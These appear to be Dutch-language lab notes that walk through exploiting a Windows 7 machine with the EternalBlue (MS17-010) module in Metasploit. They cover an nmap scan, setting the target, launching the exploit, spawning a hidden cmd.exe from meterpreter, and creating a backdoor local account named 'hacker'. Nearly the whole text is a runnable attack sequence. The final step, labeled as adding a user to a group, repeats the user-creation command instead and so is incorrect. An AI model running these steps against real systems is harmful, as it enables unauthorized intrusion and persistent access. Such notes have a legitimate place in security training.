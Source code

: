 ```
Commando Port scan:
└─$ sudo nmap -P 172.16.0.33
```

```
Commando openen msfconsole:
└─$ sudo msfconsole
```

```
Commando laden van exploid:
msf6 > use exploit/windows/smb/ms17_010_eternalblue 
```

```
Commando toevoegen van RHOST:
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS IP
```

```
Commando starten van exploid:
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit 
```

![[Pasted image 20230223112706.png]]

> [!WARNING] >
>Het volgende gedeelte word uitgevoerd in de CMD van de windows 7
>

```
Commando binnen treden van de CMD:
meterpreter > execute -f cmd.exe -H -c -i
```

```
Commando aanmaken van nieuwe gebruiker:
C:\$Recycle.Bin>net user /add hacker hacker
```

```
Commando toevoegen gebruiker aan een groep:
C:\$Recycle.Bin>net user /add "gebruikersnaam" "Wachtwoord"
```